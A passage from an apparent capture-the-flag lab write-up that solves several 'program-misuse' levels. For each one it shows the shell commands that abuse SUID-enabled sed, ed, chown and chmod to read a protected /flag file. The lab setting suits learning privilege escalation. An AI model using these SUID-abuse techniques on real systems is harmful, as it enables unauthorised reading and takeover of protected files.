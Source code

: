 `sed` is a stream editor that can be used to perform basic string transformation on data. It makes only one pass over the  input.

```
hacker@program-misuse~level35:/$ sed 's/""/""/' /flag
```

&nbsp;

## ed

> I just set the SUID bit on /usr/bin/ed.\
> Try to use it to read the flag!

`ed` is a line-oriented text editor. It is used to create, display, modify and otherwise manipulate text files, both interactively and via shell scripts. It makes multiple passes over the input.

```
hacker@program-misuse~level36:/$ ed -v /flag
57

```

The stream has been opened. We can now type `p` to retrieve the flag which starts with P and then type `q` to quit.

&nbsp;

## chown

> I just set the SUID bit on /usr/bin/chown.\
> Try to use it to read the flag!

The `chown` utility changes the user and/or group ownership of each given file.

```
hacker@program-misuse~level37:/$ chown hacker /flag && cat /flag 
```

&nbsp;

## chmod

> I just set the SUID bit on /usr/bin/chmod.\
> Try to use it to read the flag!

The `chmod` changes the file mode bits of each given file.

```
hacker@program-misuse~level38:/$ chmod 777 /flag && cat /flag 
```

&nbsp;

## cp

> I just set the SUID bit on /usr/bin/cp.\
> Try to use it to read the flag!
